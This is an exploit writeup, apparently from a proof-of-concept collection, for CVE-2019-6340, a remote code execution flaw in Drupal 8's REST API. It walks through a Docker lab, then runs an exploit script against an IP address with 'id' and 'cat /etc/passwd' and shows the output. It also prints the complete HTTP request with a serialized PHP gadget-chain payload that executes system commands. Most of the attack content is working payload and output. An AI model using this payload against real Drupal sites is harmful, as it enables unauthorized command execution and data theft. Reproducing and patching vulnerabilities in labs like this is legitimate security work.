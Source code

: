 # CVE-2019-6340 Drupal8's REST RCE, SA-CORE-2019-003

### 0x01 docker search CVE-2019-6340
```
NAME                     DESCRIPTION                              STARS     OFFICIAL   AUTOMATED
knqyf263/cve-2019-6340   Environment for CVE-2019-6340 (Drupal)   0                    
cved/cve-2019-6340       cve-2019-6340                            0     
```
### 0x02 docker pull knqyf263/cve-2019-6340

```
Using default tag: latest
latest: Pulling from knqyf263/cve-2019-6340
6ae821421a7d: Pull complete 
08f3d19635b0: Pull complete 
dc8a54b8000b: Pull complete 
b2c1d103db99: Pull complete 
edfa752aa38a: Pull complete 
583d37cbf2f0: Pull complete 
c7846a240c1d: Pull complete 
d8f9f0fd02fe: Pull complete 
01d43e56770d: Pull complete 
dbe439e2caf9: Pull complete 
3de30e1f5211: Pull complete 
209dd35ef060: Pull complete 
3d97847926b1: Pull complete 
d0da67360f39: Pull complete 
30efc6ba9a1f: Pull complete 
a7bf83e4c4c3: Pull complete 
f4e7678b40a5: Pull complete 
9c786cb4409c: Pull complete 
e2a8985b3b6b: Pull complete 
e6b727cd2f54: Pull complete 
afc99ae05ad1: Pull complete 
5db8cf1431d4: Pull complete 
7b90e0b5c074: Pull complete 
6f123bc91ad7: Pull complete 
00456a0879a4: Pull complete 
5ee332aeb757: Pull complete 
5a6951f3933f: Pull complete 
6733bf98ddeb: Pull complete 
Digest: sha256:af74572eca0aa665507cb1dd536deb18ec1c17ac3ca5757b9cdf8f7adb174876
Status: Downloaded newer image for knqyf263/cve-2019-6340:latest
```
### 0x03 docker run -d -p80:80 --name jas502n knqyf263/cve-2019-6340

`1ed1e2278904d06f5b8c5d5fda677b393e16414bbf0bd93f5d8f359d76360e49`</br>
![](https://github.com/cckuailong/PocCollect/blob/master/Web/CVE-2019-6340/img/Drupal8.jpg)

### 0x04 python CVE-2019-6340.py url cmd
`s:2:\"id\";`
![](https://github.com/cckuailong/PocCollect/blob/master/Web/CVE-2019-6340/img/CVE-2019-6340.jpg)

```
python CVE-2019-6340.py http://47.75.157.227  "id"

Description: Drupal8's REST RCE, SA-CORE-2019-003, CVE-2019-6340

Example: python CVE-2019-6340.py url cmd

>>>Vuln Url=http://47.75.157.227/node/

>>>>Exit CVE-2019-6340 RCE Vuln!

uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

```
python CVE-2019-6340.py http://47.75.157.227  "cat /etc/passwd"

Description: Drupal8's REST RCE, SA-CORE-2019-003, CVE-2019-6340

Example: python CVE-2019-6340.py url cmd

>>>Vuln Url=http://47.75.157.227/node/

>>>>Exit CVE-2019-6340 RCE Vuln!

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false

```

##### burpsuite request
![](https://github.com/cckuailong/PocCollect/blob/master/Web/CVE-2019-6340/img//CVE-2019-6340-burp.jpg)
```
POST /node/?_format=hal_json HTTP/1.1
Host: 47.75.157.227
User-Agent:  Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Connection:  keep-alive
Content-Type: application/hal+json
Accept:  */*
Cache-Control: no-cache
Content-Length: 626

{
  "link": [
    {
      "value": "link",
      "options": "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\u0000GuzzleHttp\\Psr7\\FnStream\u0000methods\";a:1:{s:5:\"close\";a:2:{i:0;O:23:\"GuzzleHttp\\HandlerStack\":3:{s:32:\"\u0000GuzzleHttp\\HandlerStack\u0000handler\";s:2:\"id\";s:30:\"\u0000GuzzleHttp\\HandlerStack\u0000stack\";a:1:{i:0;a:1:{i:0;s:6:\"system\";}}s:31:\"\u0000GuzzleHttp\\HandlerStack\u0000cached\";b:0;}i:1;s:7:\"resolve\";}}s:9:\"_fn_close\";a:2:{i:0;r:4;i:1;s:7:\"resolve\";}}"
    }
  ],
  "_links": {
    "type": {
      "href": "http://localhost/rest/type/shortcut/default"
    }
  }
}

```
##### burpsuite response
```
HTTP/1.1 403 Forbidden
Date: Mon, 27 May 2019 19:12:21 GMT
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/7.2.15
Cache-Control: must-revalidate, no-cache, private
X-UA-Compatible: IE=edge
Content-language: en
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Expires: Sun, 19 Nov 1978 05:00:00 GMT
Vary: 
X-Generator: Drupal 8 (https://www.drupal.org)
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: application/hal+json
Content-Length: 239

{"message":"The shortcut set must be the currently displayed set for the user and the user must have \u0027access shortcuts\u0027 AND \u0027customize shortcut links\u0027 permissions."}uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
### 0x05 参考链接
`https://github.com/knqyf263/CVE-2019-6340` </br>
`https://www.ambionics.io/blog/drupal8-rce` </br>
`https://gist.githubusercontent.com/theMiddleBlue/22c6908d955519bd23b3d0b349badcc5/raw/af5746d4755c9e4cca6d8ef15334f81027c524df/drupal8rce.json`</br>
`https://www.drupal.org/sa-core-2019-003`

